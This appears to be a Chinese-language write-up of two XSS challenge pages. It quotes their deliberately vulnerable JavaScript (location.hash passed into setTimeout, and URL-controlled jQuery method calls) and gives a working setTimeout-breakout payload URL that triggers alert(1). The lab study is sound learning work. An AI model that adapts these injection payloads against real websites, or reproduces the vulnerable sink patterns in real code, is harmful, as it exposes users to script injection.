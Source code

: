 [一些BAT的XSS实例（一）基础篇](https://xz.aliyun.com/t/11677)

[http://px1624.sinaapp.com/test/xsstest1/](http://px1624.sinaapp.com/test/xsstest1/)

# xsstest1

```html
<script type="text/javascript">
var x=location.hash;
function aa(x){};
setTimeout("aa('"+x+"')",100);
</script>
Give me xss bypass 1~
```

`location.hash`会获取url中`#`后的内容

[https://developer.mozilla.org/zh-CN/docs/Web/API/Location/hash](https://developer.mozilla.org/zh-CN/docs/Web/API/Location/hash)

![](https://img.mi3aka.eu.org/2022/09/0a5e4ff1026f909a8b1a64f79989244e.png)

`http://px1624.sinaapp.com/test/xsstest1/#asdf'),alert(1),aa('`

![](https://img.mi3aka.eu.org/2022/09/5ed0b905ae6d237f2eae41b65560101b.png)

通过闭合`setTimeout`得到`setTimeout("aa('asdf'),alert(1),aa('')",100);`

# xsstest2

```html
<html>
<head>
<script src="./jquery-3.4.1.min.js"></script>
Give me xss bypass 2~
<div style='display:none' id='xx'>&lt;img src=x onerror=alert(1)&gt;</div><!--id为xx-->
<input type='button' value='test' onclick='alert("哈哈，点这玩意没啥用的！")'>
<body>
<script>
   var query = window.location.search.substring(1);
   var vars = query.split("&");
   if(vars){
		aa(vars[0],vars[1])
   }
   	function aa(x,y){
		$("#xx")[x]($("#xx")[y]());//对id为xx的标签进行了两次dom操作
	}
</script>
</body>
</html>
```

![](https://img.mi3aka.eu.org/2022/09/63c68a477b4c6cc3f20c47685d536e5d.png)
